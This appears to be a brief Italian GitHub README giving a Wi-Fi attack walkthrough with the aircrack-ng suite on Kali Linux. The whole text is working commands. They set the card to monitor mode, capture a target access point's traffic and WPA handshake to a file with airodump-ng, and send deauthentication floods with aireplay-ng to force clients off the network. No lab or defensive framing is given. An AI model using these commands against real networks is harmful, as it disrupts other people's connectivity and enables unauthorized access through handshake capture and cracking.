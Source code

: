 # Wi-Fi-
Visualizza scheda di rete 
```
ifconfig
```
oppure
```
ip a
```
avvia scheda di rete in monitor mode
```
sudo airmon-ng start wlan0
```
esempio:
erpressa@kali:~# sudo airmon-ng start wlan0
avvia airodump-ng 
```
sudo airodump-ng wlan0mon 
```
copiare bssid e station
premi spazio oppure ctrl + c per terminare 
```

sudo airodump-ng --bssid FF:FF:FF:FF:FF:FF -c 1 -w /home/kali/handshake.cap wlan0mon
```
esempio
```
sudo airodump-ng --<BSSID> -c <CANALE> -w <PERCORSO-FILE> <INTERFACCIA> 
```

scollegare clients a=bssid c=clients
```
sudo aireplay-ng -0 10 -a FF:FF:FF:FF:FF:FF -c FF:FF:FF:FF:FF:FF wlan0mon

```
oppure 
```
sudo aireplay-ng --deauth 1000 -a FF:FF:FF:FF:FF:FF -c FF:FF:FF:FF:FF:FF wlan0mon
```
